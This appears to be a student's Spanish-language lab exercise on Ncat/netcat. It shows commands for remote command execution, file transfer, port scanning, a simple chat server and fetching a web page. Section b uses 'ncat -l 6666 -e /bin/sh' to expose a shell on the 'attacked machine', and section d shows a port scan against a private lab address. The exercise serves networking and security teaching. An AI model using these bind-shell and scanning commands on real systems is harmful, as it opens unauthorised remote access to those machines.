






## Miguel Estevez
### 2017-0200


<div align="center" style="font-size:40px">Ncat</div>

### a. Ejecutar una aplicacion/mandato en una maquina remota.

Maquina Atacada
```bash
ncat -l 6666 -e /bin/ls
```
Maquina Atacante
```bash
ncat 10.0.0.3 6666
```


### b. Convertir maquina atacada en accesible por un puerto dado

```bash
ncat -l 6666 -e /bin/sh
```



### c. Enviar archivo de una maquina a otra.

**Receptor**

```bash
nc -l 1499 > salida.out
```



**Enviador**
```bash
nc 192.168.0.103 1499 < entrada
```



### d. "Escanear" puertos de maquina atacada.

```bash
nc -z -v -n 192.168.0.103 1-9000
```


### e. Crear cliente y servidor.

```bash
ncat -l 1499
```


```bash
ncat 192.168.0.103 1499
```

### f. Comunicarse con un servidor: bajar una pagina web

```bash
printf 'GET / HTTP/1.1\r\nHost: github.com\r\n\r\n' | ncat --ssl github.com 443
```
La salida va estar adjunta con este documento por que es muy largo el html.
